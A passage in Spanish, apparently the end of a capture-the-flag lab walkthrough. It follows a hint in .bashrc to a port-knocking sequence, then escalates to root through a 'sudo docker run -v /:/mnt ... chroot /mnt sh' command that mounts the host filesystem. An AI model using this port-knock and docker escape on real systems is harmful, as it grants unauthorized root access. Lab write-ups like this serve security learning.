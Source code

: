 Info:

```
docker: Cannot connect to the Docker daemon at unix:///var/run/docker.sock. Is the docker daemon running?.
```

Vemos que el `docker` no esta levantado, por lo que investigaremos un poco mas para ver como levantarlo.

Si leemos en nuestra `home` el siguiente archivo:

```shell
cat .docker
```

Info:

```
que utiles son las funciones del bashrc
```

Vemos que nos da una pista en el archivo `.bashrc`, por lo que investigaremos que encontramos ahi.

Si vemos las ultimas lineas del archivo, veremos lo siguiente:

```
function docker() {
    echo "�Fijate que hay algo esperando a que llames"
    echo -e "\n 12345 54321 24680 13579 \n"
    echo -e "De nada servira si no llamas antes"
}
```

Por lo que vemos podremos hacer un `portknocking` ya que al parecer el servicio del `docker` estara filtrado, y lo haremos de la siguiente forma:

Desde neustro `kali` haremos esto:

```shell
knock <IP> 12345 54321 24680 13579
```

Y una vez echo esto, nos iremos a la maquina de nuevo y pondremos esto:

```shell
sudo docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

Info:

```
Unable to find image 'alpine:latest' locally
latest: Pulling from library/alpine
1f3e46996e29: Pull complete 
Digest: sha256:56fa17d2a7e7f168a043a2712e63aed1f8543aeafdcee47c58dcffe38ed51099
Status: Downloaded newer image for alpine:latest
# whoami
root
```

Y con esto ya seremos `root` por lo que la habremos terminado.
